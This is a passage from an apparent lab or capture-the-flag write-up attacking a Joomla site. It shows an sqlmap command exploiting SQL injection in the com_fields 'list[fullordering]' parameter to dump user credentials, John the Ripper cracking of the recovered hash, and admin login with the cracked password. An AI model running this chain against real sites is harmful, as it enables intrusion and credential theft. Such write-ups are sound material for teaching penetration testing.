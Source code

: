 \| name | non-numeric |

\| params | numeric |

\| password | non-numeric |

\| username | non-numeric |

\+----------+-------------+

**Dump "username" and "password" columns of "#\_\_users" table**

sqlmap -u "http://TARGET\_IP/index.php?option=com\_fields\&view=fields\&layout=modal\&list\[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list\[fullordering] -C username,password -T "#\_\_users" -D joomla --dump

\[2 entries]

\+--------------------------------------------------------------+--------------------------------------------------------------+

\| username | password |

\+--------------------------------------------------------------+--------------------------------------------------------------+

\| jonah | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm | |

\+--------------------------------------------------------------+--------------------------------------------------------------+

### **Crack password hash using JtR (Credential Access: Brute Force: Password Cracking (ID: T1110.002))** <a href="#pldnzka9exbr" id="pldnzka9exbr"></a>

* Copy and paste password into "hash.txt".

john ./hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

\[snip..]

spiderman123 (?)

john --show hash.txt

?:spiderman123

### **Access Joomla using recovered credentials (Initial Access: Valid Accounts: Local Accounts (ID: T1078.003))** <a href="#kucbvcop78q5" id="kucbvcop78q5"></a>

* Browse to http://TARGET\_IP/administrator.
* Logon to Joomla using jonah / spiderman123

### **Exploit Joomla CMS (Resource Development: Develop Capabilities: Exploits (ID: T1587.004))** <a href="#x6875twn7pbm" id="x6875twn7pbm"></a>

* Warning on Joomla Control Panel that PHP version 5.6.40 is only receiving security fixes from PHP project.
  * Checked Exploit database for PHP exploits - nothing found.
